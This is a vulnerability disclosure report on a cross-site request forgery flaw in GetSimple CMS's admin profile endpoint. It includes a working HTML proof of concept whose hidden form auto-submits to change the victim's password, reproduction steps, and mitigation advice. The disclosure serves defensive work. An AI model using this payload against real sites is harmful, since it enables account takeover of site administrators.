 ## Critical CSRF Vulnerability in admin/profile.php Endpoint

## Vulnerability Details:
**Application Name:** GetSimple CMS  
**Software Link:** [Download GetSimpleCMS v3.3.16](https://github.com/GetSimpleCMS/GetSimpleCMS/archive/refs/tags/v3.3.16.zip)  
**Vendor Homepage:** [Vendor Homepage](https://get-simple.info/)  
**BUG:** Cross-Site Request Forgery  
**BUG Author:** Zeynalxan

### Vulnerability Overview
A Cross-Site Request Forgery (CSRF) vulnerability was identified in the `admin/profile.php` endpoint of the application. This vulnerability allows an attacker to perform unauthorized actions on behalf of an authenticated user without their consent, potentially compromising user accounts and sensitive information.

### Affected URL
- **Endpoint:** `https://localhost/admin/profile.php`

### Description
The application does not implement adequate CSRF protection mechanisms, allowing an attacker to execute arbitrary actions by crafting a malicious request. An attacker can exploit this vulnerability by tricking a victim (authenticated user) into clicking on a crafted link or visiting a malicious webpage, which would send a request to the vulnerable endpoint.

### Proof of Concept
A proof of concept (PoC) was created to demonstrate the CSRF vulnerability. The following HTML form was used to perform an unauthorized password change:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>CSRF Attack POC</title>
</head>
<body>
    <h1>CSRF Attack Proof of Concept</h1>
    <form id="csrfForm" action="https://localhost/admin/profile.php" method="POST" style="display:none;">
        <input type="hidden" name="nonce" value="84315b997b0798aa316fcb424684c647402c7632">
        <input type="hidden" name="user" value="salam">
        <input type="hidden" name="email" value="salam@gmail.com">
        <input type="hidden" name="name" value="Seleme">
        <input type="hidden" name="timezone" value="Europe/Berlin">
        <input type="hidden" name="lang" value="en_US">
        <input type="hidden" name="show_htmleditor" value="1">
        <input type="hidden" name="sitepwd" value="Selme1234">
        <input type="hidden" name="sitepwd_confirm" value="Selme1234">
        <input type="hidden" name="submitted" value="Save Updates">
    </form>
    <script>
        document.getElementById('csrfForm').submit();
    </script>
</body>
</html>
```

### Steps to Reproduce
1. Ensure the target application is running on a local server.
2. Place the above HTML code in a file (e.g., `csrf_attack.html`).
3. Open the `csrf_attack.html` file in a web browser.
4. The form will automatically submit a request to `admin/profile.php`, changing the user's password without their consent.

### Impact
This vulnerability can lead to unauthorized actions being taken on behalf of users, including but not limited to:
- Unauthorized password changes.
- Modification of user profile details.
- Potential data leakage and account takeover.

### Recommendations
To mitigate this vulnerability, it is recommended to implement the following security measures:
- **CSRF Tokens**: Implement CSRF tokens for all state-changing requests. Ensure that each request includes a unique token that is validated by the server.
- **SameSite Cookie Attribute**: Use the `SameSite` attribute for cookies to restrict cross-origin requests.
- **User Confirmation**: Introduce confirmation steps for sensitive actions, such as password changes.

### Conclusion
The identified CSRF vulnerability poses a significant security risk to the application. Immediate action is required to implement proper CSRF protections to safeguard user accounts and sensitive information.
